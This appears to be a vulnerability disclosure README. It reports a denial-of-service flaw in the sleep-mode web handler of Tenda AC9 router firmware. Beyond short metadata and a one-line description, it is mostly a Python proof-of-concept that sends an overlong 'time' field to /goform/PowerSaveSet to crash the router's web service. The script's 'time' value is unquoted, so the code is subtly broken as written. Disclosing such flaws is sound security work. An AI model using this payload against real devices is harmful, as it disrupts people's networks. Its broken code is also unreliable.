




# tenda_AC9_PowerSaveSet_ Denial_of_service 

Vender ：Tenda

Firmware version:US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-2908.html


#### Describe

In Tenda AC9 firemware is US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin，httpd's Sleep Mode  In function  ，

The ability to send long post packets causes the service to crash


#### Detail











POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/PowerSaveSet"


data={
	"powerSavingEn":"0a",
	"time":00%3A00-00%3A00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,
	"ledCloseType": "undefined",
	"powerSaveDelay":"0"
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/sleep_mode.html?random=0.8560610430310459&",
	"Upgrade-Insecure-Requests":"1",
	"Cookie":"password=wnucvb"
}
response = requests.request("POST", url, headers=headers, data=data)
```

